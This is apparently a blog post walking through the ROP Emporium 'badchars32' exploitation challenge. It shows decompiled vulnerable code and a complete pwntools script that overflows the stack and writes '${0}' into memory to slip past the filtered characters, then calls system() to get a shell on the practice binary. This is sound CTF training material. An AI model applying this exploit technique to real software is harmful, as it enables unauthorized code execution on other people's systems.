 ```yaml
---
layout: post
title: ROP Emporium - badchars32
---
```


### Instruction
An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Prev step to get addr data section
<https://bhrdn.github.io/ROP-Emporium-write432/>

### Check vuln function
```c
void pwnme(void)
{
  char *__s;
  size_t __n;
  undefined auStack44 [40];
  
  __s = (char *)malloc(0x200);
  if (__s != (char *)0x0) {
    memset(__s,0,0x200);
    memset(auStack44,0,0x20);
    puts("badchars are: b i c / <space> f n s");
    printf("> ");
    __s = fgets(__s,0x200,stdin);
    __n = nstrlen(__s,0x200);
    checkBadchars(__s,__n);
    memcpy(auStack44,__s,__n);
    free(__s);
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

### XOR function to bypass badchars
```c
void usefulGadgets(void)
{
  byte in_CL;
  byte *unaff_EBX;
  
  *unaff_EBX = *unaff_EBX ^ in_CL;
  return;
}
```

### Why not bypass badchars with bash special params :trollface:
- Badchars: [ 'b', 'i', 'c', '/', ' ', 'f', 'n', 's' ]

```c
#include <stdio.h>

int main()
{
    system("$0");
    return 0;
}
```
- Reference: <https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html>

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('badchars32')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '${0}'

DATA_START = 0x804a038

## gadgets to write datas
POP_ESI_POP_EDI = 0x08048899
MOV_EDI_ESI = 0x08048893

rop = ROP(exe)
rop.raw(POP_ESI_POP_EDI)
rop.raw(command)
rop.raw(DATA_START)
rop.raw(MOV_EDI_ESI)

rop.system(DATA_START)

io.sendline(payload + rop.__str__())
io.interactive()
```